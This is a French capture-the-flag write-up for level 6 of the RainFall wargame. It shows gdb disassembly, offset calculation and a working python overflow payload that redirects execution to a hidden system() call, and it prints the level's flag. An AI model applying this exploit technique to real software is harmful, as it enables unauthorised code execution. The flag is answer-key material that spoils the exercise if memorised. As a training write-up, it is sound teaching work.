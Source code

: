 # Level 6

```
level6@RainFall:~$ ./level6
Segmentation fault (core dumped)
level6@RainFall:~$ ./level6 ab
Nope
```

Nous observons que la fonction main appelle une fonction "m" et une "n" .

En un premier lieu, observons la fonction n:
```
08048454 <n>:
 8048454:	55                   	push   ebp
 8048455:	89 e5                	mov    ebp,esp
 8048457:	83 ec 18             	sub    esp,0x18
 804845a:	c7 04 24 b0 85 04 08 	mov    DWORD PTR [esp],0x80485b0
 8048461:	e8 0a ff ff ff       	call   8048370 <system@plt>
```

On comprend qu'il faudra l'executer car on voit l'appel systeme.
Elle n'est jamais appelé, l'objectif sera de l'exécuter.

Dans le main, on observe:
Un premier call à malloc de 64 
Un second call à malloc de 4 (le suivant dans la mémoire)

Essayons comme precedemment de faire "sauter" la memoire et d'inserer notre fonction n dans la memoire ayant segfalt

```
gdb ./level6
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4A
0x41346341 in ?? ()
```

Calculons l'offset:
https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/
72

```
gdb ./level6
info function n
On remarque: 0x08048454  n
```

Donc (on inverse encore une fois l'adresse pour respecter le little endian)

```
./level6 `python -c "print('\x90' * 72 + '\x54\x84\x04\x08')"`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
